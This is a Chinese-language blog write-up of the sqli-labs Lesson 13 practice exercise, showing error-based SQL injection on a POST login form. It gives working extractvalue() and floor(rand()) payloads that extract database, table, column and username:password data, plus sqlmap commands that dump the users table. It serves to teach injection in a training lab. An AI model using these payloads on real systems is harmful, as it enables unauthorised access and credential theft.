 ```yaml
---
title: sqli-labs-lession 13 POST单引号双注入变形
date: 2018-09-27 14:01:58
tags:
categories: sql注入
---
```

# sqli-labs-lession 13 POST单引号双注入变形 #
---

## 登录界面 ##

![1](/img/sql/Lesson-13/1.png)

## 手注 ##

### 判断类型 ###

`'`检验是否报错

![2](/img/sql/Lesson-13/2.png)

返回报错信息

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''') and password=('') LIMIT 0,1' at line 1`

根据报错信息,很明显和Lesson-12课一样变量应该像`('$uname')`闭合起来。经过检验发现输入不存在的账号密码只会显示登录失败图片,登录成功也只显示成功图片。这里可以利用像Lesson-5一样利用报错显示信息。

### 获取字段数 ###

hackbar又不好用了。又要在表单里输入...

`xxx') order by 100#`

![3](/img/sql/Lesson-13/3.png)

`xxx') order by 2#`

无错误信息

![4](/img/sql/Lesson-13/4.png)

字段数为2。

### 获取数据库 ###

* extractvalue

函数解释：

extractvalue()：从目标XML中返回包含所查询值的字符串。
　　
EXTRACTVALUE (XML_document, XPath_string); 

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 

第二个参数：XPath_string (Xpath格式的字符串)

concat:返回结果为连接参数产生的字符串。

extract的第二个参数要求是xpath格式字符串,当输入xpath格式字符串就会报错,并把错误原因显示。但是限制长度是32位。

`xxx') and extractvalue(null,concat(0x7e,(select database()),0x7e))#`

![5](/img/sql/Lesson-13/5.png)

### 获取表 ###

`xxx') and extractvalue(null,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))#`

![6](/img/sql/Lesson-13/6.png)

### 获取列 ###

`xxx') and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))#`

![7](/img/sql/Lesson-13/7.png)

### 获取值 ###

`xxx') and extractvalue(null,concat(0x7e,(select group_concat(username,':',password) from security.users),0x7e))#`

![8](/img/sql/Lesson-13/8.png)

这个时候这个函数的弊端就显示出来了,只显示了32个字符长度的信息。

修改payload。

`xxx') union select count(*),concat((floor(rand(0)*2)),'--',(select concat(username,':',password) from security.users limit 0,1))a from information_schema.tables group by a#`

![9](/img/sql/Lesson-13/9.png)

逐行查看。

## SQLMAP ##

firefox设置代理,再用Burpsuite抓包。

--technique E 

使用报错型注入

`sqlmap -r sqlpost/post13.txt -p uname --dbs --threads 10 --technique E`

![10](/img/sql/Lesson-13/10.png)

`sqlmap -r sqlpost/post13.txt -p uname -D security -T users --columns --dump`

![11](/img/sql/Lesson-13/11.png)








